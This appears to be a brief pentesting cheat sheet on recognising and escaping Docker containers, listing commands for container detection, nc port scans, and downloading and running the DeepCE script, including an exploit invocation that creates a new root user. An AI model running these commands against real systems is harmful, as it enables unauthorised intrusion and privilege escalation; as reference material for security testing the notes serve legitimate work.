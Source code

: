 # 🐋 Docker Escape
https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html
## Know you're in a docker

```bash
ps aux
cd / && ls -lah
# if .dockerenv then ...

cat /proc/1/cgroup
```

## Escape
```bash
arp -a
# other hosts ???
# scan open ports
nc -zv 127.0.0.1 1-65535
nc -zv $host 1-65535

# check for db and other stuff....
```

### Resources
https://unit42.paloaltonetworks.com/docker-patched-the-most-severe-copy-vulnerability-to-date-with-cve-2019-14271/


#### DeepCE
https://github.com/stealthcopter/deepce
```bash
wget https://github.com/stealthcopter/deepce/raw/main/deepce.sh
curl -sL https://github.com/stealthcopter/deepce/raw/main/deepce.sh -o deepce.sh
# Or using python requests
python -c 'import requests;print(requests.get("https://github.com/stealthcopter/deepce/raw/main/deepce.sh").content)' > deepce.sh 
python3 -c 'import requests;print(requests.get("https://github.com/stealthcopter/deepce/raw/main/deepce.sh").content.decode("utf-8"))' > deepce.sh

# start
chmod +x ./deepce.sh
./deepce.sh

# create new root user on system
./deepce.sh --no-enumeration --exploit PRIVILEGED --username deepce --password deepce
```  

